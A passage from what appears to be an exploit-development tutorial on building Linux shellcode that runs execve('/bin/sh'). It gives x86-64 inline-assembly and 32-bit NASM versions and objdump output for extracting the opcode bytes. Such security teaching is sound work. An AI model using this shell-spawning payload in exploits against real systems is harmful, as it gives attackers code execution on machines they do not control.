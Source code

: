 - `rax`: 0x3b (syscall number for execve)
- `rdi`: pointer to the string "/bin/sh\x00" (filename to execute)
- `rsi`: NULL (argv array pointer - set to NULL in this simple case)
- `rdx`: NULL (envp array pointer - set to NULL in this simple case)
- `syscall`: triggers the system call to execute the program

#### Compiling execve Shellcode and Run

```c
// File name: execve.c
// Compile Option: gcc -o execve execve.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "mov rax, 0x68732f6e69622f\n"
    "push rax\n"
    "mov rdi, rsp  # rdi = '/bin/sh'\n"
    "xor rsi, rsi  # rsi = NULL\n"
    "xor rdx, rdx  # rdx = NULL\n"
    "mov rax, 0x3b # rax = sys_execve\n"
    "syscall       # execve('/bin/sh', null, null)\n"

    "xor rdi, rdi   # rdi = 0\n"
    "mov rax, 0x3c	# rax = sys_exit\n"
    "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```

#### Extracting shellcode using objdump

We can translate the shellcode into byte code (opcode).

```x86asm
; File name: shellcode.asm
section .text
global _start
_start:
xor    eax, eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx, esp
xor    ecx, ecx
xor    edx, edx
mov    al, 0xb
int    0x80
```

```console
$ sudo apt-get install nasm 
$ nasm -f elf shellcode.asm
$ objdump -d shellcode.o
shellcode.o:     file format elf32-i386
Disassembly of section .text:
00000000 <_start>:
   0:	31 c0                	xor    %eax,%eax
   2:	50                   	push   %eax
   3:	68 2f 2f 73 68       	push   $0x68732f2f
   8:	68 2f 62 69 6e       	push   $0x6e69622f
   d:	89 e3                	mov    %esp,%ebx
   f:	31 c9                	xor    %ecx,%ecx
```